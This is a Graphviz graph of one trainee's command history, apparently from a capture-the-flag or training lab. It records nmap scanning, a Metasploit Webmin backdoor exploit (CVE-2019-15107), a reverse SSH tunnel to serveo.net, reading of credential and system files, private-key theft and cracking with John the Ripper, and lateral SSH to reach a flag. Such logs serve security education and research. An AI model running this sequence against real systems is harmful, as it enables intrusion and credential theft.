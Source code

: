 // creating graph for user: 77
digraph {
	node [shape=box]
	0 [label="ip a U"]
	1 [label="ping .. U"]
	2 [label="ping 8.8.8.8 U"]
	3 [label="namp 172.18.1.5 -A U"]
	4 [label="nmap 172.18.1.5 -A A0 M0 A1 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	7 [label="curl 172.18.1.5:10000 U"]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	13 [label="vim U"]
	14 [label="ll U"]
	15 [label="nmap -p 10000 -A 172.18.1.5 V0 "]
	16 [label="msfconsole A2 M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	19 [label="show A5 "]
	20 [label="show options A5 M5 "]
	21 [label="set LHOST 172.18.1.5 A6 M6 "]
	22 [label="show options V5 "]
	23 [label="back U"]
	24 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	25 [label="set RHOSTS 172.18.1.5 V6 "]
	26 [label="run V8 "]
	27 [label="set LPORT 6666 A6 "]
	28 [label="run V8 "]
	29 [label="set LHOST 0.0.0.0 V6 "]
	30 [label="run V8 "]
	31 [label="sessions -i U"]
	32 [label="sessions U"]
	33 [label="ip a U"]
	34 [label="show options V5 "]
	35 [label="set LHOST 192.168.130.188 V6 "]
	36 [label="set SRVHOST 192.168.130.188 A6 "]
	37 [label="run V8 "]
	38 [label="msfconsole V2 "]
	39 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	40 [label="show options V5 "]
	41 [label="set RHOSTS 172.18.1.5 V6 "]
	42 [label="run V8 "]
	43 [label="ip r U"]
	44 [label="set LHOST 10.1.135.83 V6 "]
	45 [label="run V8 "]
	46 [label="nc -l -p 7777 U"]
	47 [label="ll U"]
	48 [label="ls A10 "]
	49 [label="cd/ U"]
	50 [label="cd / U"]
	51 [label="ls A10 "]
	52 [label="cd /root U"]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	55 [label="ll U"]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	60 [label="history U"]
	61 [label="ls A10 "]
	62 [label="ip a U"]
	63 [label="ps aux U"]
	64 [label="ps aux U"]
	65 [label="w U"]
	66 [label="ps aux U"]
	67 [label="ps aux  A9 A11 A12 A17 "]
	68 [label="ping 10.1.135.83 U"]
	69 [label="s U"]
	70 [label="s U"]
	71 [label="s U"]
	72 [label="s U"]
	73 [label="s U"]
	74 [label="s U"]
	75 [label="s U"]
	76 [label="s U"]
	77 [label="sss U"]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	81 [label="ip a U"]
	82 [label="nmap A0 A1 "]
	83 [label="cd /root U"]
	84 [label="ls A10 "]
	85 [label="apt udpate U"]
	86 [label="apt update U"]
	87 [label="apt install nmap A0 A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	91 [label="cd / U"]
	92 [label="cd /etc U"]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	95 [label="crontab -l U"]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	97 [label="cd /home U"]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	100 [label="cd eve U"]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	106 [label="cd debian U"]
	107 [label="cd ../debian U"]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	111 [label="cd .ansible U"]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	114 [label="cd tmp U"]
	115 [label="ls -hlA A10 "]
	116 [label="cd .. U"]
	117 [label="ls -hlA A10 "]
	118 [label="cd .. U"]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	123 [label="cd .. U"]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	126 [label="cd eve U"]
	127 [label="cat .bash_history A11 M11 A12 A17 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A0 A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history V11 "]
	132 [label="su eve U"]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 A16 M16 "]
	135 [label="exit U"]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ A16 "]
	139 [label="cd U"]
	140 [label="ls -hlA .ssh A10 A16 "]
	141 [label="cd /home/eve U"]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history V11 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	147 [label="ll U"]
	148 [label="cd .. U"]
	149 [label="ll U"]
	150 [label="ll * U"]
	151 [label="cd .. U"]
	152 [label="ll U"]
	153 [label="ll root U"]
	154 [label="cat root/.bash_history V11 "]
	155 [label="ll U"]
	156 [label="cd /var/ U"]
	157 [label="ll U"]
	158 [label="cd webmin U"]
	159 [label="ll U"]
	160 [label="cd .. U"]
	161 [label="cd .. U"]
	162 [label="ll U"]
	163 [label="ll media U"]
	164 [label="ll opt U"]
	165 [label="ll srv U"]
	166 [label="cd var U"]
	167 [label="ll U"]
	168 [label="cd log U"]
	169 [label="ll U"]
	170 [label="cat syslog A1 A9 A11 A12 A17 "]
	171 [label="ll U"]
	172 [label="zcat syslog.1 A1 A9 A11 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A11 A12 A17 "]
	174 [label="cd /etc/ansible U"]
	175 [label="cd /etc U"]
	176 [label="ll U"]
	177 [label="ll ssh A16 "]
	178 [label="ll U"]
	179 [label="cat sudoers A1 A9 A11 A12 A17 "]
	180 [label="cd U"]
	181 [label="ll U"]
	182 [label="ll U"]
	183 [label="alias ll='ls -hlA' A10 "]
	184 [label="ll U"]
	185 [label="ll U"]
	186 [label="cd U"]
	187 [label="ll U"]
	188 [label="cd .ssh A16 "]
	189 [label="ll U"]
	190 [label="cat id_rsa A12 M12 A17 "]
	191 [label="ll U"]
	192 [label="alias ll='ls -hlA' A10 "]
	193 [label="ll U"]
	194 [label="cd Desktop/ U"]
	195 [label="ll U"]
	196 [label="vim id_rsa U"]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 A16 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py V8 "]
	200 [label="chmod +x ssh2john.py A14 A15 A16 "]
	201 [label="./ssh2john.py id_rsa A14 A16 "]
	202 [label="./ssh2john.py id_rsa > x A14 A16 "]
	203 [label="ll U"]
	204 [label="ll /usr/share/wordlists/rockyou.txt U"]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x A14 M14 "]
	206 [label="ll U"]
	207 [label="ll U"]
	208 [label="cd .. U"]
	209 [label="cat /home/eve/.bash_history V11 "]
	210 [label="ssh eve@10.1.17.4 V16 "]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	213 [label="cd /tmp U"]
	214 [label="ll U"]
	215 [label="ll U"]
	216 [label="cd U"]
	217 [label="history U"]
	218 [label="cat /home/eve/.bash_history V11 "]
	219 [label="ssh eve@10.1.17.4 V16 "]
	220 [label="alias ll='ls -hlA' A10 "]
	221 [label="ll U"]
	222 [label="cd top-secret U"]
	223 [label="ll U"]
	224 [label="cat flag.txt A17 M17 "]
	225 [label="ll U"]
	226 [label="cd .. U"]
	227 [label="ll U"]
	228 [label="uname -a U"]
	229 [label="sudo -l U"]
	230 [label="ll U"]
	231 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	232 [label="w U"]
	233 [label="ll U"]
	234 [label="ll top-secret/ U"]
	235 [label="cat top-secret/flag.txt V17 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	239 [label="ll U"]
	240 [label="cd / U"]
	241 [label="ll U"]
	242 [label="w U"]
	243 [label="ll opt U"]
	244 [label="ll srv/ U"]
	245 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	246 [label="cat /etc/cron* A1 A9 A11 A12 A17 "]
	247 [label="ll /tmp/cron* U"]
	248 [label="ll /etc/cron* U"]
	249 [label="ll U"]
	250 [label="ip a U"]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	252 [label="ll U"]
	253 [label="uname -a U"]
	254 [label="cat /etc/api/sources.list A1 A9 A11 A12 A17 "]
	255 [label="cat /etc/apt/sources.list A1 A9 A11 A12 A17 "]
	256 [label="ll U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	rankdir=LR
}
